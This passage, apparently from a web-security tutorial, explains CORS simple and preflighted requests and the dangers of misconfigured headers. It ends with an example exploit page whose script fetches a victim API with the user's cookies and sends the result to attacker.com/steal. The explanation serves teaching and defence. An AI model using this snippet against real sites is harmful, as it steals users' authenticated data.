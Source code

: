 1. **Simple Requests** – These use standard HTTP methods (`GET`, `POST`, `HEAD`) and safe `Content-Type` values. The browser sends the request directly and then checks response headers to see if the calling script can access the response body.
2. **Preflighted Requests** – These are “non-simple” requests (e.g., `PUT`, `DELETE`, `PATCH`, or custom headers). Before sending the main request, the browser sends an **OPTIONS preflight request** to ask the target server what’s allowed.

**Key Browser Behavior:**

* Every cross-domain request includes an **Origin** header:

  ```
  Origin: http://attacker.com
  ```
* The target server decides whether to allow the request using **Access-Control-Allow-Origin** and related CORS headers.
* If `Access-Control-Allow-Origin` is `*`, it allows **any domain** to read the response. This can be dangerous if sensitive data is exposed.

---

### **Why This Matters for Security**

* **Improper CORS configuration** can allow attackers to steal sensitive data from authenticated sessions.
* **OPTIONS preflight responses** can unintentionally reveal supported HTTP methods, allowed headers, and API capabilities.
* The enhanced capabilities of XHR can enable **client-side Remote File Inclusion (RFI)**, **cross-domain port scanning**, or **browser-based DDoS** attacks.

---

### **Example: Exploiting Misconfigured CORS**

**Scenario:**
Target API at `https://victim.com` has:

```
Access-Control-Allow-Origin: *
Access-Control-Allow-Credentials: true
```

If the browser also allows credentials (`withCredentials = true`), this combination can be **devastating**, because `*` is not valid with credentials — but some developers mistakenly allow both.

**Attacker’s Exploit Page (`http://attacker.com`):**

```html
<script>
fetch("https://victim.com/api/userinfo", {
  method: "GET",
  credentials: "include" // sends victim's cookies
})
.then(res => res.text())
.then(data => {
  console.log("Stolen data:", data);
  // Send stolen data to attacker's server
  fetch("http://attacker.com/steal?data=" + encodeURIComponent(data));
});
</script>
```
